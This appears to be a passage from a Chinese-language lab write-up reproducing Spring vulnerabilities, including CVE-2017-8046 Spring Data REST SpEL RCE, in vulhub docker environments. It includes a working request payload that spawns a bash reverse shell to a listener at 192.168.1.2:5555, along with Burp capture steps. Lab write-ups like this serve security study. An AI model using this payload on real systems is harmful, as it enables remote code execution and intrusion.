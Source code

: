 进入如下页面，此处用bp抓包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101950.png)

bp抓包如下所示

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101951.png)

这里构造一个bash反弹的payload

    
    
    &_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.1.2/5555 0>%261")).start()=vulhub

打开nc监听端口

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101952.png)

把构造的payload放入抓到的包里发送

![]()

即可收到反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101953.png)

# CVE-2017-8046

Spring-Data-REST-RCE(CVE-2017-8046)，`Spring Data
REST`对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为spring的SPEL解析导致的RCE

## 影响版本

Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3 Spring Boot version <
2.0.0M4 Spring Data release trains < Kay-RC3

## 漏洞分析

这里直接从补丁分析，从官方的描述来看就是就是Spring-data-
rest服务处理PATCH请求不当，导致任意表达式执行从而导致的RCE。首先来看下补丁，主要是evaluateValueFromTarget添加了一个校验方法verifyPath，对于不合规格的path直接报异常退出，主要是property.from(pathSource,type)实现，基本逻辑就是通过反射去验证该Field是否存在于bean中

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101954.png)

## 漏洞复现

进入CVE-2017-8046的docker环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101955.png)

访问http://192.168.1.10:8080/customers/1返回如下界面则存在漏洞
